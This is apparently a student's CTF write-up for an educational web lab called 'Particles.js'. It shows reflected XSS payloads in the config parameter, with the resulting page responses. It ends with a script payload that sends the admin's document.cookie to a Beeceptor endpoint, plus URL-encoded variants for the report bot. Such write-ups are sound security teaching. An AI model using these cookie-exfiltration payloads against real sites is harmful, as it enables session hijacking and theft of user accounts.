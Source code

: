 ```yaml
---
title: Simple Web - 0x08(Lab - `Particles.js`)
tags: [CTF, Web, eductf]

---
```


# Simple Web - 0x08(Lab - `Particles.js`)
###### tags: `CTF` `Web` `eductf`
Challenge: https://particles.ctf.zoolab.org

## Description
The website can change the theme of layout. The main goal is to leak admin's cookie.

## Source Code

### Analysis

## Exploit - XSS
1. Use burp suit to check if the website has XSS vulnerability.
![](https://i.imgur.com/eu4Qqrs.png)
2. Try to modify `config` parameter
Payload 1: `1;alert(123);console.log({x://\`
    :::spoiler Response 1
    ```javascript!
    ...
    <script>
        url.value = location; config.value = '1;
        alert(123);
        console.log({x://\'; fetch('/1;alert(123);console.log({x://\.json').then(r => r.json()).then(json => {
            particlesJS("particles-js", json)
        })
    </script>
    ...
    ```
    :::
    or
    Payload 2: `</script><script>alert(123);</script>`
    :::spoiler Response 2
    ```javascript!
    ...
    <script>
    url.value = location; config.value = '
    </script>
    <script>
        alert(123);
    </script>
    '; fetch('/</script>
    <script>
        alert(123);
    </script>
    .json').then(r => r.json()).then(json => {
            particlesJS("particles-js", json)
        })
    </script>
    ...
    ```
    :::
    or 
    Payload 3: `</script><script>alert(123);</script><script>console.log({x://`
    :::spoiler Response 3
    ```javascript!
    ...
    <script>
    url.value = location; config.value = '
    </script>
    <script>
        alert(123);
    </script>
    <script>
        console.log({x://'; fetch('/
    </script>
    <script>   
        alert(123);
    </script>
    <script>
        console.log({x://.json').then(r => r.json()).then(json => {
            particlesJS("particles-js", json)
        })
    </script>
    ...
    ```
    :::
    ![](https://i.imgur.com/yDcnYv8.png)
3. `fetch` + [`Beeceptor`](https://beeceptor.com/)
Payload: 
    ```javascript!
    </script><script>fetch(%22https://sbk6401.free.beeceptor.com?%22%2bdocument.cookie);</script>
    ```
    **<font color="FF0000">Note that:</font>** MUST TRANSFER `+` AND `"` TO `%2B` AND `%22` RESPECTIVELY
    URL: 
    ```!
    https://particles.ctf.zoolab.org/?config=%3C/script%3E%3Cscript%3Efetch(%22https://sbkkk.free.beeceptor.com?%22%2bdocument.cookie);%3C/script%3E
    ```
    ![](https://i.imgur.com/VIPx7bb.png)

4. Report to author
Must encoded by [`URL encode`](https://www.urlencoder.org/)
Payload:
    ```!
    https%3A%2F%2Fparticles.ctf.zoolab.org%2F%3Fconfig%3D%3C%2Fscript%3E%3Cscript%3Efetch%28%2522https%3A%2F%2Fsbkkk.free.beeceptor.com%3F%2522%252bdocument.cookie%29%3B%3C%2Fscript%3E
    ```
    ![](https://i.imgur.com/HMhXfGN.png)
    ![](https://i.imgur.com/1qNlp1t.png)

* Other payload:
    :::spoiler payload
    Payload 2
    ```!
    url=https%3A%2F%2Fparticles.ctf.zoolab.org%2F%3Fconfig%3D%3C%2Fscript%3E%3Cscript%3Efetch%28%2522https%3A%2F%2Fsbk6401.free.beeceptor.com%3F%2522%252bdocument.cookie%29%3B%3C%2Fscript%3E%3Cscript%3Econsole.log%28%7Bx%3A%2F%2F
    ```
    Payload 3
    ```!
    url=https%3A%2F%2Fparticles.ctf.zoolab.org%2F%3Fconfig%3D%3C%2Fscript%3E%3Cscript%3Efetch%28%2522https%3A%2F%2Fsbk6401.free.beeceptor.com%3F%2522%252bdocument.cookie%29%3B%3C%2Fscript%3E
    ```
    :::